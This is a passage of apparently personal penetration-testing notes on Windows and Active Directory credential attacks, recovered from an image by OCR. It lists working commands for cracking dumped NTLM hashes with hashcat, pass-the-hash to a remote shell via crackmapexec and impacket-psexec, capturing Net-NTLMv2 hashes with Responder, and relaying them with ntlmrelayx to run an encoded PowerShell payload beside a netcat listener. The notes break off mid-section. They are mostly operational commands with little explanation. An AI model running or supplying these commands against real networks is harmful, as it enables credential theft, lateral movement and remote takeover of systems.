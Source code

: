 2. 

   1. Bruteuforce NTLM HaSH
   
      ```
      hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
      ```
   
   2. Choose the user with admin access, use its hash to get remote shell
   
      ```
      crackmapexec smb 10.10.10.175 -u administrator -H hash
      
      impacket-psexec domain/user@ip -H LMHash:NThash
      ```
      
      
   

#### 5. NTLMv2  Get Hash

obtain code execution or a shell on a Windows system as an unprivileged user

abuse the ***Net-NTLMv2 network authentication protocol***.

1. Kali: start *Responder* tool

   ```
   sudo responder -I <interface>
   ```

2. windows: non-privileged user

   ```
   dir \\<kali ip>\<non-existent SMB shares>
   ```

3. Responder will capture NTLMv2 hash

4. Bruteforce

   ```
   hashcat --help | grep -i "ntlm"		# 5600
   ```




#### 6. NTLMv2 Relay Hash

1. kali: 

   ```
   nc -lvnp xxxx
   ```

   

   ```
   sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.242 -c "powershell -enc JABjAGwAaQ..."
   ```

   